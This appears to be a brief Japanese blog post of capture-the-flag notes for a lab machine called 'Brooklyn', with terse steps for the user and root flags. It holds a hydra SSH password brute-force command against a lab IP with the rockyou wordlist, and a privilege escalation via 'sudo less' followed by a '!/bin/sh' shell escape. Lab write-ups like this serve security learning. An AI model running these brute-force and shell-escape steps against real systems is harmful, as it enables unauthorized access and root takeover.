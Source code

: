 ```yaml
---
title: "Brooklyn"
date: 2024-03-16T11:36:42+09:00
draft: false
---
```


### user.txt

- FTP
  - jake がユーザー名？
- ```hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.10.241 ssh```
- ```find / 2>/dev/null | grep user.txt```

### root.txt

- less
  - - sudo less /etc/profile
  - !/bin/sh
